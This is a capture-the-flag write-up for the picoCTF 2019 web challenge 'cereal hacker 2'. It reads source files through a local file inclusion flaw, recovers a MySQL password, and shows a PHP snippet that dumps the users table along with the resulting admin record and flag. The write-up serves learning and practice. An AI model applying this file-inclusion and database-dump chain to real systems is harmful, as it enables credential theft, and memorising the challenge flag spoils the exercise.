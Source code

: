 # web / cereal hacker 2

> Points: 500 \
> [previous cereal hacker](../cereal-1) | next cereal hacker

## Question

> Get the admin's password. <https://2019shell1.picoctf.com/problem/62195/> or <http://2019shell1.picoctf.com:62195>

## Solution

Using the LFI vulnerability from the previous solution, we can read `login.php`.
It provides us with a database and table, `pico_ch2.users`, and requires `sql_connect.php`.
`sql_connect.php` has credentials to connect to the MySQL server.

Using these credentials, we can dump out everything in the `users` table.

```php
<?php
$sql_conn = new mysqli('localhost', 'mysql', 'this1sAR@nd0mP@s5w0rD#%');
if ($result = $sql_conn->query("SELECT * FROM pico_ch2.users")) {
  while ($row = $result->fetch_assoc()) {
    print_r($row);
  }
}
?>
```

Once again requesting `/index.php?page=/tmp/lfi`, we get our flag:

```txt
Array
(
    [id] => 1
    [username] => admin
    [password] => picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7}
    [admin] => 1
)
```

### Flag

`picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7}`
